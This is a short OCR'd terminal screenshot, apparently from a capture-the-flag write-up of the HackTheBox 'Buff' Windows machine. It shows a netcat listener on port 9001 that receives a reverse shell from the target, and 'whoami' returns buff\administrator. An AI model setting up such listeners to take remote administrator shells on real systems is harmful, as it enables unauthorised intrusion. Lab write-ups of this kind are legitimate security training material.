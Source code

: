 ![](Maszyny/Windows/Buff/Pasted%20image%2020210824171942.png)

-(kali kali)-[-]
rlwrap nc -lynp 9001
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on ::: 9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.198.
Ncat: Connection from 10.10.10.198:50543.
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.
whoami
whoami
buff\administrator
C:\Windows\system32>
